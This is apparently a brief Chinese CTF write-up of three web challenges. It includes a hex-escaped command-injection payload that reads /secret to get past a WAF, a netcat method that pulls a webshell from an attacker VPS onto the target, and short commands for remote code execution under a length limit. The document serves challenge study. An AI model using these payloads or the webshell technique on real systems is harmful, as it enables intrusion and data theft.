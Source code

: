 # WEB
## easy_calc

题目没有禁止分号，可以执行其他指令。

题目没有禁止反斜杠和双引号，可以使用双引号加转义绕过WAF。

payload: `num1=1&symbol=+&num2=2;include"\x64\x61\x74\x61\x3a\x2f\x2f\x74\x65\x78\x74\x2f\x70\x6c\x61\x69\x6e\x2c\x3c\x3f\x3d\x60\x63\x61\x74\x20\x2f\x73\x65\x63\x72\x65\x74\x60\x3f\x3e"`
- ## easy_cmd
  
  注意到[[netcat]]可以使用`-o`输出文件，可以利用这个方法写入webshell
  
  在VPS上搭建：`cat a.php | nc -lv 3003`
  
  然后在目标上执行命令：`nc -o a.php xxx.xxx.xxx 3003`
  
  即可将`a.php`输入目标，访问即可。
  
  注意：webshell要短
- ## web签到
  
  小于八个字符的[RCE]([[CTF/RCE]])
  
  ```shell
  ls />a
  nl /*>a
  ```